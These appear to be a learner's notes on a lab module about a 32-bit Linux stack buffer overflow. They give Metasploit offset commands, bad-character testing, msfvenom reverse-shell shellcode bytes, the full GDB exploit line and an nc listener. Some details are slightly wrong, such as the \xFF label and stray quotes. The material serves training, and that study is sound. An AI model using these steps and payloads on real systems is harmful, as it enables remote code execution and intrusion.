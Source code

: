 # Take Control of EIP

> One of the most important aspects of a stack-based buffer overflow is to **get the instruction pointer** (EIP) **under control**, so we can tell it to which address it should jump. **This will make the EIP point to the address where our shellcode starts and causes the CPU to execute it**.

## Determine the Offset

> The offset is used to **determine how many bytes are needed** to overwrite the buffer and how much space we have around our shellcode.

### Create pattern

> Shellcode is a program code that contains instructions for an operation that we want the CPU to perform. The manual creation of the shellcode will be discussed in more detail in other modules. But to save some time first, we use the Metasploit Framework (MSF) that offers a Ruby script called “pattern\_create” that can help us determine the exact number of bytes to reach the EIP. It creates a unique string based on the length of bytes you specify to help determine the offset.

```bash
❯ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt
Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

# GDB using the generated payload
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

# GDB - EIP
(gdb) info registers eip
eip            0x69423569	0x69423569

# CALCULATING THE OFFSET
# We see that the EIP displays a different memory address, and we can use another MSF tool called "pattern_offset" to calculate the exact number of characters (offset) needed to advance to the EIP.
❯ /usr/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

![[Pasted image 20240906155140.png]]

**If we now use precisely this number of bytes for our "U"s, we should land exactly on the EIP. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "\x66" and execute it to ensure we control the EIP.**

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![[Pasted image 20240906155145.png]]

**The EIP has been overwritten with our \x66 characters.**

> Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the EIP now, we will later overwrite it with the address pointing to our shellcode's beginning.

**Examine the register and find the address of EBP**

```bash
(gdb) info registers ebp
ebp            0x55555555          0x55555555
```

## Determine the Length for Shellcode

> We have to find out approximately how big our shellcode will be that we will insert, and for this, we will use **msfvenom**.

### Shellcode length

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

* We need a total of **1040** bytes to get to the EIP.
* Here, we can use an additional **100** bytes of NOPs
* **150** bytes for our shellcode.

```
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4
```

**Buffer**

![[Pasted image 20240906155154.png]]

Now we can try to find out how much space we have available to insert our shellcode.

```bash
 (gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![[Pasted image 20240906155159.png]]

## Identification of Bad Characters

```
\x00 - Null Byte
\x0A - Line Feed
\x0D - Carriage Return
\xFF - Form Feed
```

**Here we use the following character list to find out all characters we have to consider and to avoid when generating our shellcode.**

```bash
# characters list

CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# string length
echo $CHARS | sed 's/\\x/ /g' | wc -w
256
```

**We need to calculate our buffer again.**

```
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
```

**Look at the whole main function to set a breakpoint at the corresponding function so that the execution stops at this point and we can analyze the memory's content :**

```bash
(gdb) disas main

# setting the breakpoint at the function
(gdb) break bowfunc

# send chars
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

# look at the stack
(gdb) x/2000xb $esp+500

# identify all bad characters - look where the chars start
# adjust the number of chars from the one who are bad
# Substract the number of removed characters

# Buffer = "\x55" * (1040 - 255 - 4) = 781
# "\x00" removed: 256 - 1 = 255 bytes
# CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
# EIP = "\x66" * 4

# send without the null byte
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

# the stack
x/2000xb $esp+550

# check for other bad chars ... etc
```

## Generate shellcode

### msfvenom

```bash
# syntahx
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

# real command
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

# content of shellcode
❯ cat shellcode
unsigned char buf[] = 
"\xbe\x6e\x05\xb5\x18\xdd\xc1\xd9\x74\x24\xf4\x5a\x31\xc9"
"\xb1\x12\x31\x72\x12\x03\x72\x12\x83\x84\xf9\x57\xed\x69"
"\xd9\x6f\xed\xda\x9e\xdc\x98\xde\xa9\x02\xec\xb8\x64\x44"
"\x9e\x1d\xc7\x7a\x6c\x1d\x6e\xfc\x97\x75\x0e\xfe\x67\x84"
"\x98\xfc\x67\xfc\x31\x88\x89\xb0\xa4\xda\x18\xe3\x9b\xd8"
"\x13\xe2\x11\x5e\x71\x8c\xc7\x70\x05\x24\x70\xa0\xc6\xd6"
"\xe9\x37\xfb\x44\xb9\xce\x1d\xd8\x36\x1c\x5d";

# Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

# Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
# NOPs = "\x90" * 124
# Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
# EIP = "\x66" * 4'

# EXPLOIT
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + ""\xbe\x6e\x05\xb5\x18\xdd\xc1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x12\x31\x72\x12\x03\x72\x12\x83\x84\xf9\x57\xed\x69\xd9\x6f\xed\xda\x9e\xdc\x98\xde\xa9\x02\xec\xb8\x64\x44\x9e\x1d\xc7\x7a\x6c\x1d\x6e\xfc\x97\x75\x0e\xfe\x67\x84\x98\xfc\x67\xfc\x31\x88\x89\xb0\xa4\xda\x18\xe3\x9b\xd8\x13\xe2\x11\x5e\x71\x8c\xc7\x70\x05\x24\x70\xa0\xc6\xd6\xe9\x37\xfb\x44\xb9\xce\x1d\xd8\x36\x1c\x5d"" + "\x66" * 4')

# reverse shell 
nc -lvnp 31337
```
